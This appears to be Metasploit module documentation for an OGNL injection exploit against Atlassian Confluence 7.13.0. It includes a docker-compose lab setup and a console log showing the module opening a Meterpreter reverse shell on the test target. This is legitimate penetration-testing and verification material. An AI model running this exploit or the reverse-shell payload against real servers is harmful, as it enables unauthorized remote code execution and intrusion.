 ## Vulnerable Application

### Setup

1. Create a new `docker-compose.yml` file with the contents below.
2. Startup the container using `docker-compose up`
3. Navigate to the HTTP service running on port 8090
4. Acquire and provide an evaluation license
5. When prompted, setup a standalone / non-clustered system
6. Configure the database settings
    1. Select "By connection string", then Database URL: `jdbc:postgresql://postgresql:5432/confdb`
    2. Username and password are both `confdb`
7. Setup takes a few minutes
8. When prompted, select "Empty Site"
9. Select "Manage users and groups within Confluence"
10. Create an account, it **will not** be needed for exploitation
11. Once setup has completed select "Start" and set a space name to something

#### Docker Compose File

```
version: '3'

services:
  postgresql:
    image: postgres:11
    environment:
      POSTGRES_DB: confdb
      POSTGRES_USER: confdb
      POSTGRES_PASSWORD: confdb
    ports:
      - '5432:5432'

  confluence-server:
    depends_on:
      - postgresql
    image: atlassian/confluence:7.13.0
    ports:
      - '8090:8090'
      - '8091:8091'
```

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/atlassian_confluence_namespace_ognl_injection'
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Confluence 7.13.0 in [Docker]

```
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set RHOSTS 192.168.159.100
RHOSTS => 192.168.159.100
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > check
[+] 192.168.159.100:8090 - The target is vulnerable. Successfully tested OGNL injection.
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (40132 bytes) to 192.168.159.100
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.100:42050) at 2022-06-03 17:14:41 -0400

meterpreter > getuid
Server username: confluence
meterpreter > sysinfo
Computer        : 5052c5eebf8a
OS              : Linux 5.15.0-35-generic #36-Ubuntu SMP Sat May 21 02:24:07 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```
